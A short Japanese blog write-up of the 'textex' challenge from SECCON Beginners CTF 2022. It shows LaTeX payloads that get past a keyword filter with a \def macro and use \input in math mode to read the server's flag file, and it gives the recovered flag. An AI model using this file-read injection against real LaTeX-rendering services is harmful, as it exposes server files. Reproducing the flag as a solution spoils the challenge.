

# SECCON Beginners CTF 2022

こんにちは、[がーと](https://twitter.com/gaato__)です。今回忙しかったのですが片手間で SECCON Beginners CTF 2022 にチーム Hacklava として参加し、1 問だけ解いたので解法をメモっておきます。

## textex

実は私も Web 上で LaTeX をコンパイルするサービスを運用していて、この脆弱性も経験していたので正直余裕でした。

Dockerfile とディレクトリ構造を見て ./flag を LaTeX の中から読み込めばいいということが分かったのでまず思いついたのが `\input` です。ということでまず思いつくのは

```tex
\documentclass{article}
\begin{document}

\input{flag}

\end{document}
```

ですが `app.py` を読んでみると `flag` を空文字列に置換しているのでこれは ERROR です。そこで `\def` を使って

```tex
\documentclass{article}
\def\hoge{g}
\begin{document}

\input{fla\hoge}

\end{document}
```

としてみても ERROR。
`\input` は読み込んだ文字列をそのまま LaTeX のコードとして解釈するのですが、flag に _ （アンダースコア）が含まれているとテキストモードではエラーが出るのでそのエラーかと思いました。
そこで数式モードに入れてやれば _ の後の文字が下付き文字として解釈されるので出るのではと思い、

```tex
\documentclass{article}
\def\hoge{g}
\begin{document}

$$\input{fla\hoge}$$

\end{document}
```

としてみると



が出てきて LaTeX では {} はブロックとして解釈され消えるのと、 _ の後の文字が下付き文字になることを考慮すると flag は `ctf4b{15_73x_pr0n0unc3d_ch0u?}` ということが分かります。
